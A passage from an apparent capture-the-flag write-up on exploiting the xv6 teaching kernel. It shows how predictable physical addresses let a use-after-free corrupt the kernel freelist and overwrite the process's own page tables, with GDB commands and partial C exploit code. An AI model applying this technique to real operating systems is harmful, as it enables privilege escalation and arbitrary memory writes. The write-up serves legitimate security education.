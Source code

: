 Since no kernel address space layout randomization is implemented by xv6, and
the kernel basically operates with a fixed 1:1 mapping of physical memory, we
can pretty easily predict where the page tables of our process will be located,
and overwrite those. A simple check with GDB is enough to find out. We can
extract the `kernel` binary from the Docker container, set a breakpoint on the
[`uvmalloc()`][xv6-src-uvmalloc] function before launching our program, and
check its first argument (`pagetable_t pagetable`) to reveal the physical
address of our page tables.

```sh
docker cp xv6_homework:/home/user/kernel .
readelf -s kernel | grep uvmalloc
# attach to QEMU with GDB and set breakpoint
```

Once the top-level page table of our process is identified, we can point the
corrupted `kmem.freelist` pointer to it. Once this is done, we can then create
fake page table entries to map any physical address we want and write to it
directly. The xv6 kernel sets up 3-level page tables, so we can allocate a
couple of fake pages with an initial `sbrk()` call. Their physical address will
also be 100% predictable, and we can find it inspecting with GDB the return
value of [`sys_sbrk()`][xv6-src-sys_sbrk]).

```c
// Found through GDB, 100% predictable
static const uint64 my_pagetable_pa = 0x87f42000UL;
static const uint64 table_lvl1_pa   = 0x87f43000UL;
static const uint64 table_lvl0_pa   = 0x87f72000UL;

int main(void) {
 // Allocate two pages for fake page table entries, which will have
 // physical address table_lvl1_pa and table_lvl0_pa.
 uint64 *const table_lvl1 = (uint64 *)sbrk(0x2000);
 uint64 *const table_lvl0 = table_lvl1 + 512;

 uint64 *page = /* perform race and get UAF page... */

 // Point kmem.freelist into our top level (lvl2) page table
 page[0] = my_pagetable_pa + 0x100 * 8;

 do {
  sbrk(0x1000);
 } while (page[1] == 0x0101010101010101UL);

 // Map our own page table
 uint64 *my_pagetable = (uint64 *)sbrk(0x1000);
 // ...
}
```

Due to xv6 design, the top level page table of any process will always have two
entries at index `0xff`: one for the "trapframe" (virtual address
`0x3fffffe000`) and one for the "trampoline" (virtual address `0x3ffffff000`),
which are used for syscall handling. This is the reason for the `+ 0x100 * 8`
in the above code. If we don't skip those, they will be overwritten by
`kalloc()` with poison bytes and the next syscall will cause a panic.


[xv6]: https://pdos.csail.mit.edu/6.1810/2023/xv6.html
[xv6-book]: https://pdos.csail.mit.edu/6.1810/2023/xv6/book-riscv-rev3.pdf
[xv6-riscv]: https://github.com/mit-pdos/xv6-riscv
[blogpost-1]: https://embeddedinn.com/articles/tutorial/understanding-riscv-semihosting/
[riscv-semihosting-repo]: https://github.com/riscv-non-isa/riscv-semihosting
[xv6-src-sys_sbrk]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/sysproc.c#L39
[xv6-src-growproc]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/proc.c#L260
[xv6-src-uvmalloc]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/vm.c#L226
[xv6-src-kalloc]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/kalloc.c#L69